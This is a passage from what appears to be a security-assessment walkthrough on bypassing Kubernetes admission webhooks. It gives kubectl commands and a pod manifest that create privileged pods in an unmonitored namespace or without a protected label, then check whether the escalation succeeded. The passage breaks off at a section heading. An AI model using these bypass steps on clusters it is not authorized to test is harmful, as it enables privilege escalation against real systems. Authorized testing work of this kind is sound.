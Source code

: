 **Explanation:** This attempts to create a privileged pod in the `non-monitored` namespace.
**Why:** To exploit a potential bypass if the webhook only applies to specific namespaces and `non-monitored` is not one of them.
**Expected Output:** If the bypass is successful, the pod should be created without any errors. If the admission controller is functioning correctly, you'll see the error message as in step 2.2.
**What to Look For:**  Verify that the pod is running by using `kubectl get pods -n non-monitored`.  Also, check the pod's security context to confirm it is actually privileged.

```bash
kubectl get pod privileged-pod-ns -n non-monitored -o yaml | grep privileged
```

**Explanation:** Retrieve the YAML definition of the created pod and check if the `privileged` field is set to `true`.
**Why:** To confirm the security context of the deployed pod.
**Expected Output:** If the pod is privileged, the output should include: `privileged: true`.
**Contribution:** Verifies if the privilege escalation was successful.

### 2.4 Exploitation: Object Selector Bypass

If the webhook uses an `objectSelector`, we attempt to bypass it.  Assume the webhook only applies to pods with the label `app=protected`. Create a pod *without* that label.

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: unprotected-pod
spec:
  containers:
  - name: unprotected-container
    image: alpine:latest
    securityContext:
      privileged: true
EOF
```

**Explanation:** This attempts to create a privileged pod *without* the `app=protected` label.
**Why:** To exploit a potential bypass if the webhook only applies to specific objects and this pod does not match those criteria.
**Expected Output:** If the bypass is successful, the pod should be created without any errors. If the admission controller is functioning correctly, you'll see the error message as in step 2.2.
**What to Look For:** Verify that the pod is running.

```bash
kubectl get pod unprotected-pod -o yaml | grep privileged
```

**Explanation:** Retrieve the YAML definition of the created pod and check if the `privileged` field is set to `true`.
**Why:** To confirm the security context of the deployed pod.
**Expected Output:** If the pod is privileged, the output should include: `privileged: true`.
**Contribution:** Verifies if the privilege escalation was successful.

### 2.5 Exploitation: Case Sensitivity Bypass (Example)
